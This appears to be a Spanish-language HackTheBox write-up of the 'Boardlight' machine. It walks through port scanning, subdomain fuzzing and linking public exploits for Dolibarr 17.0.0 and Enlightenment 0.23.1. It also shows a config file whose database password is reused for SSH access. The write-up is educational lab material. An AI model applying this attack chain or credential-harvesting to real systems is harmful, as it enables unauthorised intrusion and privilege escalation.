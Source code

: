 ```yaml
---
title: Boardlight Writeup
author: d0x
date: 2025-03-23
categories: [Writeup, HTB]
tags: [Linux, CTF, Easy, Dolibarr 17.0.0 exploitation]
---
```


![image](https://github.com/user-attachments/assets/dd6c7912-885e-472c-8d95-5578b48f6380)


```bash
# Nmap 7.95 scan initiated Sun Mar 23 09:38:14 2025 as: /usr/lib/nmap/nmap --privileged -p- --open -sS --min-rate 5000 -n -vvv -Pn -oG ports 10.10.11.11
# Ports scanned: TCP(65535;1-65535) UDP(0;) SCTP(0;) PROTOCOLS(0;)
Host: 10.10.11.11 ()    Status: Up
Host: 10.10.11.11 ()    Ports: 22/open/tcp//ssh///, 80/open/tcp//http///
# Nmap done at Sun Mar 23 09:38:32 2025 -- 1 IP address (1 host up) scanned in 18.40 seconds
```

Puertos 22 y 80 abiertos. Por lo tanto realizo un nmap para ver las versiones que corren en estos. 

```bash
# Nmap 7.95 scan initiated Sun Mar 23 09:38:57 2025 as: /usr/lib/nmap/nmap --privileged -p22,80 -sCV -oN versions 10.10.11.11
Nmap scan report for 10.10.11.11
Host is up (0.32s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.11 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 06:2d:3b:85:10:59:ff:73:66:27:7f:0e:ae:03:ea:f4 (RSA)
|   256 59:03:dc:52:87:3a:35:99:34:44:74:33:78:31:35:fb (ECDSA)
|_  256 ab:13:38:e4:3e:e0:24:b4:69:38:a9:63:82:38:dd:f4 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sun Mar 23 09:39:20 2025 -- 1 IP address (1 host up) scanned in 23.24 seconds
```

Al realizar un directory listing solo me mostro los directorios, js, css e images. Nada importante, asique veo de hacer un crawling de los subdomains y este fue el resultado.

```bash
$ ffuf -u http://board.htb -w /usr/share/wordlists/SecLists/Discovery/DNS/subdomains-top1million-110000.txt -H "Host:FUZZ.board.htb" -fl 518

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://board.htb
 :: Wordlist         : FUZZ: /usr/share/wordlists/SecLists/Discovery/DNS/subdomains-top1million-110000.txt
 :: Header           : Host: FUZZ.board.htb
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
 :: Filter           : Response lines: 518
________________________________________________

crm                     [Status: 200, Size: 6360, Words: 397, Lines: 150, Duration: 228ms]
```

Vemos un crm ahi con status code 200.

![image](https://github.com/user-attachments/assets/40c054cd-9f50-41d1-bacb-2cacd0e1b10d)

Lo primero que llama la atencion es ver la version, por lo que podemos hacer una pequeña busqueda, y ver que es dolibarr y su latest version.

```bash
**Dolibarr ERP/CRM** es un software de [Planificación de Recursos Empresariales] (PRE, ERP en inglés)
```

Exploit en dolibarr 17.0.0 PHP cammand injection

```bash
https://github.com/nikn0laty/Exploit-for-Dolibarr-17.0.0-CVE-2023-30253
```

![image](https://github.com/user-attachments/assets/3870ce3b-0b2f-4494-ac45-e95612f43a7c)

Tenemos que migrar al user larissa que vemos en el /etc/passwd para poder tener la primer flag.

si busco recursivamente en el directorio en el cual estoy situado por algun archivo conf para ver si hay credenciales, obtengo lo siguiente.
```bash
www-data@boardlight:~/html/crm.board.htb$ find . -name \*conf\* 2>/dev/null
```

```bash
./htdocs/public/project/suggestconference.php
./htdocs/theme/common/fontawesome-5/svgs/brands/confluence.svg
./htdocs/theme/common/fontawesome-5/js/conflict-detection.js
./htdocs/theme/common/fontawesome-5/js/conflict-detection.min.js
./htdocs/theme/md/ckeditor/config.js
./htdocs/theme/eldy/ckeditor/config.js
./htdocs/includes/ckeditor/ckeditor/bender-runner.config.json
./htdocs/includes/ckeditor/ckeditor/build-config.js
./htdocs/includes/ckeditor/ckeditor/config.js
./htdocs/includes/ckeditor/ckeditor/plugins/exportpdf/tests/manual/configfilename.html
./htdocs/includes/ckeditor/ckeditor/plugins/exportpdf/tests/manual/configfilename.md
./htdocs/includes/ckeditor/ckeditor/plugins/smiley/images/confused_smile.png
./htdocs/includes/ckeditor/ckeditor/plugins/smiley/images/confused_smile.gif
./htdocs/includes/tecnickcom/tcpdf/tcpdf_autoconfig.php
./htdocs/includes/tecnickcom/tcpdf/config
./htdocs/includes/tecnickcom/tcpdf/config/tcpdf_config.php
./htdocs/install/mysql/data/llx_holiday_config.sql
./htdocs/install/fileconf.php
./htdocs/admin/eventorganization_confbooth_extrafields.php
./htdocs/admin/eventorganization_confboothattendee_extrafields.php
./htdocs/conf
./htdocs/conf/conf.php.old
./htdocs/conf/conf.php.example
./htdocs/conf/conf.php
```

```bash
www-data@boardlight:~/html/crm.board.htb/htdocs/conf$ cat conf.php
<?php
$dolibarr_main_url_root='http://crm.board.htb';
$dolibarr_main_document_root='/var/www/html/crm.board.htb/htdocs';
$dolibarr_main_url_root_alt='/custom';
$dolibarr_main_document_root_alt='/var/www/html/crm.board.htb/htdocs/custom';
$dolibarr_main_data_root='/var/www/html/crm.board.htb/documents';
$dolibarr_main_db_host='localhost';
$dolibarr_main_db_port='3306';
$dolibarr_main_db_name='dolibarr';
$dolibarr_main_db_prefix='llx_';
$dolibarr_main_db_user='dolibarrowner';
$dolibarr_main_db_pass='serverfun2$2023!!';
$dolibarr_main_db_type='mysqli';
$dolibarr_main_db_character_set='utf8';
$dolibarr_main_db_collation='utf8_unicode_ci';
// Authentication settings
$dolibarr_main_authentication='dolibarr';

//$dolibarr_main_demo='autologin,autopass';
// Security settings
$dolibarr_main_prod='0';
$dolibarr_main_force_https='0';
$dolibarr_main_restrict_os_commands='mysqldump, mysql, pg_dump, pgrestore';
$dolibarr_nocsrfcheck='0';
$dolibarr_main_instance_unique_id='ef9a8f59524328e3c36894a9ff0562b5';
$dolibarr_mailing_limit_sendbyweb='0';
$dolibarr_mailing_limit_sendbycli='0';

//$dolibarr_lib_FPDF_PATH='';
//$dolibarr_lib_TCPDF_PATH='';
//$dolibarr_lib_FPDI_PATH='';
//$dolibarr_lib_TCPDI_PATH='';
//$dolibarr_lib_GEOIP_PATH='';
//$dolibarr_lib_NUSOAP_PATH='';
//$dolibarr_lib_ODTPHP_PATH='';
//$dolibarr_lib_ODTPHP_PATHTOPCLZIP='';
//$dolibarr_js_CKEDITOR='';
//$dolibarr_js_JQUERY='';
//$dolibarr_js_JQUERY_UI='';

//$dolibarr_font_DOL_DEFAULT_TTF='';
//$dolibarr_font_DOL_DEFAULT_TTF_BOLD='';
$dolibarr_main_distrib='standard';
```

aca -> $dolibarr_main_db_pass='serverfun2$2023!!'; 
vemos esta contraseña la cual podemos ver si se esta reutilizando en el user larissa.

y asi era.

```bash
larissa@boardlight:~$ ls
Desktop  Documents  Downloads  Music  Pictures  Public  Templates  user.txt  Videos
```

-----------------------------

```bash
searchsploit enlightenment      

Exploit Title  

Enlightenment - Linux Null PTR Dereference Framework                   
Enlightenment v0.25.3 - Privilege escalation
```

y en la maquina vemos que correo la version XX

```bash
larissa@boardlight:~$ enlightenment --version
ESTART: 0.00000 [0.00000] - Begin Startup
ESTART: 0.00005 [0.00004] - Signal Trap
ESTART: 0.00006 [0.00001] - Signal Trap Done
ESTART: 0.00007 [0.00001] - Eina Init
ESTART: 0.00027 [0.00019] - Eina Init Done
ESTART: 0.00029 [0.00002] - Determine Prefix
ESTART: 0.00041 [0.00012] - Determine Prefix Done
ESTART: 0.00043 [0.00002] - Environment Variables
ESTART: 0.00044 [0.00001] - Environment Variables Done
ESTART: 0.00045 [0.00001] - Parse Arguments
Version: 0.23.1
```

por lo tanto tenemos una via de explotacion en la version de este binario para escalar privilegios.

```bash
https://raw.githubusercontent.com/MaherAzzouzi/CVE-2022-37706-LPE-exploit/refs/heads/main/exploit.sh
```

En el directorio /tmp metemos el script, le damos permiso de ejecucion y lo ejecutamos.


![image](https://github.com/user-attachments/assets/210ed71c-12ea-4730-a12d-ad3929a8122d)

Por lo que ahora si ganamos la segunda y ultima flag para terminar la maquina.

